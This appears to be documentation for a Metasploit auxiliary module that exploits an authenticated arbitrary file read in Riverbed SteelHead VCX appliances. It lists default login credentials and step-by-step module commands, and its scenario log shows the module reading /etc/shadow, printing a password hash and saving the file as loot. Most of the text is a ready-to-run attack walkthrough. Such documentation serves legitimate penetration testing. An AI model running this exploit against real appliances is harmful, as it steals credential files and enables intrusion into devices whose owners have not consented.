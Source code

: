 This module exploits an authenticated arbitrary file read in the log module's filter engine.

## Vulnerable Application

The application is available for a 90 day evaluation after free registration from
[riverbed](https://www.riverbed.com/gb/products/steelhead/Free-90-day-Evaluation-SteelHead-CX-Virtual-Edition.html).  
Downloads are available for Hyper-V, ESX(i), and KVM.  Installation is straight forward, initial login is `admin`/`password`.
If need be from cli, to show the IP address of the device: `show interfaces primary`

This module was successfully tested against:

- SteelHead VCX (VCX255U) 9.6.0a

## Verification Steps

1. Do: ```auxiliary/scanner/http/riverbed_steelhead_vcx_file_read```
2. Do: ```set RHOSTS [IP]```
3. Set TARGETURI if necessary.
3. Set FILE if necessary.
3. Set USERNAME if necessary.
3. Set PASSWORD if necessary.
4. Do: ```run```

## Scenarios

### SteelHead VCX255u 9.6.0a running on ESXi

```
resource (riverbed.rc)> use auxiliary/scanner/http/riverbed_steelhead_vcx_file_read
resource (riverbed.rc)> set rhosts 192.168.2.198
rhosts => 192.168.2.198
resource (riverbed.rc)> set verbose true
verbose => true
resource (riverbed.rc)> run
[*] CSRF Token: 18PK64EKpo4d6y0X5ZOMYJ3fxfYZKfrN
[+] Authenticated Successfully
[+] File Contents:
admin:$6$sKOU5moa$B2szxiSEzq6ZmHZw01CMf64WlzvqIgCYETeXzF1ItxZ5soOJNVXdE2H5N19t0cPeGDf/LGvRymgQHAxgojr6u1:10000:0:99999:7:::
administrator:*:10000:0:99999:7:::
apache:*:10000:0:99999:7:::
localvixuser:*:10000:0:99999:7:::
named:*:10000:0:99999:7:::
nobody:*:10000:0:99999:7:::
ntp:*:10000:0:99999:7:::
pcap:*:10000:0:99999:7:::
postgres:*:10000:0:99999:7:::
rcud:*:10000:0:99999:7:::
root:*:10000:0:99999:7:::
rpc:*:10000:0:99999:7:::
shark:*:10000:0:99999:7:::
sshd:*:10000:0:99999:7:::
statsd:*:10000:0:99999:7:::
webproxy::10000:0:99999:7:::
[+] Stored /etc/shadow to /root/.msf4/loot/20170602230238_default_192.168.2.198_host.file_311580.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
